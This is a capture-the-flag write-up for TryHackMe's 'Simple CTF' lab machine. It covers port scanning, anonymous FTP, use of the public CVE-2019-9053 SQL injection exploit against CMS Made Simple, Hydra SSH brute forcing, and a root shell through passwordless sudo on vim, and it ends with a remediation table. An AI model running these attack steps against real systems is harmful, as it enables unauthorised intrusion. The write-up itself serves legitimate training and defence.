









# Simple CTF — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.64.160.165 | **Attacker IP:** 192.168.146.25

## Machine info



## Summary

**Simple CTF** is a beginner TryHackMe room that chains a leaked internal note from anonymous FTP access, an unauthenticated SQL injection in CMS Made Simple that discloses a valid username, and a reused weak password to reach a low-privilege shell, escalated to root through a permissive `sudo` rule on `vim`.

**Attack chain:** FTP Anonymous Login → Leaked Dev Note → Web Enumeration → CMS Made Simple 2.2.8 Identified → SQL Injection (CVE-2019-9053) → Username Disclosure → SSH Brute Force → Initial Access → sudo vim (GTFOBins) → Root

## 1. Reconnaissance

A full TCP port scan found three open ports: FTP with anonymous login allowed, Apache serving the default Ubuntu page with a `robots.txt` entry hinting at an OpenEMR install, and SSH on a non-standard port:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.64.160.165

PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 62 vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.146.25
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
2222/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|   256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Manually browsing the web server confirmed both findings:





## 2. FTP Enumeration

Anonymous FTP login was accepted, as flagged by nmap; the initial `ls` stalled under passive mode, so passive mode was disabled before browsing. The `/pub` directory held a single file:

```
ftp> get ForMitch.txt
226 Transfer complete.

cat ForMitch.txt
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

The note hints at a system user with a weak, reused password.

## 3. Web Enumeration

Directory brute-forcing on port 80 surfaced a `/simple` path:

```
gobuster dir -u http://10.64.160.165/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

index.html           (Status: 200) [Size: 11321]
robots.txt           (Status: 200) [Size: 929]
simple                (Status: 301) [Size: 315] [--> http://10.64.160.165/simple/]
```

It hosts a CMS Made Simple installation, version 2.2.8 per the site footer:




## 4. SQL Injection (CVE-2019-9053)

CMS Made Simple 2.2.8 is affected by an unauthenticated, time-based blind SQL injection:

```
searchsploit CMS Simple 2.2.8
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
```

```
searchsploit -m php/webapps/46635.py
  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
    Codes: CVE-2019-9053
```

Running the public PoC against the target dumped the password salt, the admin username, and the password hash:

```
python2 46635.py -u http://10.64.160.165/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```



## 5. SSH Brute Force & Initial Access

With the username `mitch` confirmed, Hydra was pointed directly at SSH on the non-standard port:

```
hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.64.160.165:2222
[2222][ssh] host: 10.64.160.165   login: mitch   password: secret
```

Those credentials logged in directly over SSH:



```
script /dev/null -c bash
```



## 6. Privilege Escalation

`sudo -l` showed `mitch` could run `vim` as root with no password:

```
sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

That grant leads directly to a root shell:

```
sudo /usr/bin/vim
:shell
root@Machine:~#
```





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Anonymous FTP enabled, leaking an internal note about credential reuse | Disable anonymous FTP access; never leave internal notes or credential hints on an externally reachable share |
| CMS Made Simple 2.2.8 vulnerable to unauthenticated SQL injection (CVE-2019-9053) | Upgrade to CMS Made Simple 2.2.10 or later; keep third-party CMS installations patched |
| Weak, reused password allowing SSH credentials to be brute-forced with a standard wordlist | Enforce strong, unique passwords and rate-limit or disable password authentication on SSH in favor of keys |
| `mitch` granted passwordless `sudo` on `/usr/bin/vim`, a GTFOBins-listed binary | Remove unnecessary `sudo` grants on editors/interpreters; restrict `sudo` to the minimum commands required |
